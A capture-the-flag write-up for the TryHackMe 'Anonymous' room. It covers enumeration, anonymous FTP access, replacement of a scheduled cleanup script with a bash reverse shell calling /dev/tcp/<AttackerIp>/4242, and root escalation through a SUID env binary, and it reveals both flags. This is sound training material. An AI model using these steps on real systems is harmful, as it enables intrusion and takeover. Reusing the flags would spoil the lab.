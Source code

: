 # Room: [Anonymous](https://tryhackme.com/room/anonymous) (*Not the hacking group*) :wink:


## Basic Enum

Nmap / rustcan

```bash
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

```

- Enumerate the machine.  How many ports are open?
**4**

- What service is running on port 21?
**ftp**

- What service is running on ports 139 and 445?
**smb**

```bash
smbclient -L $IP (without any password)

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))

```

- There's a share on the user's computer. What's it called?
**pics**

> HINT: What's that log file doing there?... nc won't work the way you'd expect it to

```bash
ftp $IP

Name: anonymous
Password: (without any password)
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget *
```
Let's cat each files: 

```bash
cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```bash
cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

```bash
cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```

## Basic shell

So let's have fun by uploading this reverse shell via ftp now:

```bash
cat clean.sh

#!/bin/bash
bash -i >& /dev/tcp/<AttackerIp>/4242 0>&1
```

And after few seconds we are in :

```bash
rlwrap nc -nlvp 4242
listening on [any] 4242
namelessone@anonymous:~$ 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
ls
pics  user.txt
cat user.txt
90d6f992[Redcated]8748c414740
namelessone@anonymous:~$ 

```
<details>
  <summary>Click to reveal the user flag!</summary>
  
  ```bash
  90d6f992585815ff991e68748c414740
  ```
</details>
 
> HINT: This may require you to do some outside research

Indeed:

```bash
find / -perm -u=s 2>/dev/null
[...]
/usr/bin/env
```

So let's try this: [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/env/#shell) :point_left:

```bash
env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
cat /root/root.txt
4d930091[Redacted]f27999af363
bash-4.4# 

```

Houra :partying_face:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```bash
  4d930091c31a622a7ed10f27999af363
  ```
</details>


### Useful Links:

[rustscan](https://github.com/RustScan/RustScan)
[revshells](https://www.revshells.com/)
[gtfobins](https://gtfobins.github.io/)

